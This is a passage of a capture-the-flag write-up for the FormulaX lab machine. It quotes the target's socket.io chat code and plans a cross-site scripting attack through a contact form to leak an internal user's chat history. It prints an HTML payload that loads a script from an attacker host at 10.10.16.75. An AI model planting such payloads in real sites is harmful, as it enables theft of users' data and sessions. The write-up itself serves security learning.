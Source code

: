 In chat html source we find:
```html
<script src="/socket.io/socket.io.js"></script>
<script src="./chat.js"></script>
```

chat.js: [http://10.10.11.6/restricted/chat.js](http://10.10.11.6/restricted/chat.js)
```js
let value;
const res = axios.get(`/user/api/chat`);
const socket = io('/',{withCredentials: true});

//listening for the messages
socket.on('message', (my_message) => {
  //console.log("Received From Server: " + my_message)
  Show_messages_on_screen_of_Server(my_message)
})
```

The "bot" is using sockets to communicate to backend. In our short chat we see that service is not available to users, but maybe internal users? From `Contact Us` using XSS we could probably leak the history of internal user!

![Writeup-3.png](/assets/images/Machines/FormulaX/Writeup-3.png)

### Leak Internal User History

To make XSS work we need to load our script and `socker.io` . `script` tag doesn't work, so we have to use `img` tag or others. Used [https://minify-js.com](https://minify-js.com) to minify the code into one liner.

```html
<!-- Verbose -->
<script>
    const xss = document.createElement('script')
    xss.src = 'http://10.10.16.75:8890/xss.js'
    document.body.appendChild(xss)
</script>

<script>
    const sock = document.createElement('script')
    sock.src = '/socket.io/socket.io.js'
    document.body.appendChild(sock)
</script>

```